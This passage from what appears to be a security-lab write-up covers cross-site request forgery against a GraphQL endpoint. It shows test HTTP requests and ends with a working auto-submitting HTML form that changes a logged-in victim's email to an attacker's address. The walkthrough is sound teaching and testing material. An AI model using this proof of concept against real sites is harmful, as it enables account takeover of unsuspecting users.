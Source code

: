 POST requests that use a content type of `application/json` are secure against forgery as long as the content type is validated. In this case, an attacker wouldn't be able to make the victim's browser send this request even if the victim were to visit a malicious site.

However, alternative methods such as GET, or any request that has a content type of `x-www-form-urlencoded`, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API.

**That being said, we can try to change the `Content-Type` to `x-www-form-urlencoded` to test if it is accepting `x-www-form-urlencoded` `Content-Type`:**
```http
POST /graphql/v1 HTTP/1.1
Host: 0a4100f6047b9b378541a4cd001800fb.web-security-academy.net
Accept: application/json
Content-Type: x-www-form-urlencoded

query=query{__typename}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-5/images/Pasted%20image%2020230707182108.png)

**As you can see, it doesn't validate our `Content-Type` is `application/json`.**

**With that said, we can use the following `changeEmail` mutation query using `Content-Type: x-www-form-urlencoded`:**
```http
POST /graphql/v1 HTTP/1.1
Host: 0a4100f6047b9b378541a4cd001800fb.web-security-academy.net
Cookie: session=2EnNs8G1ReuRoApYUsEatf5CKJNxctPj
Accept: application/json
Content-Type: x-www-form-urlencoded

query=mutation{changeEmail(input:{email:"test@test.com"}){email}}
```

**Beautified:**
```graphql
mutation {
    changeEmail(input: {email: "test@test.com"}) {
        email
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-5/images/Pasted%20image%2020230707182629.png)

**Now, we can build our CSRF exploit to the victims, and change their email!**
```html
<!DOCTYPE html>
<html>
<head>
  <title>GraphQL CSRF PoC</title>
</head>
<body>
  <form class='login-form' name='email-change-form' action='https://0a4100f6047b9b378541a4cd001800fb.web-security-academy.net/graphql/v1' method="post">
    <input type='text' name='query' value='mutation{changeEmail(input:{email:"pwned@attacker.com"}){email}}' style="display: none;">
    <button class='button' type='submit' style="display: none;"></button>
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
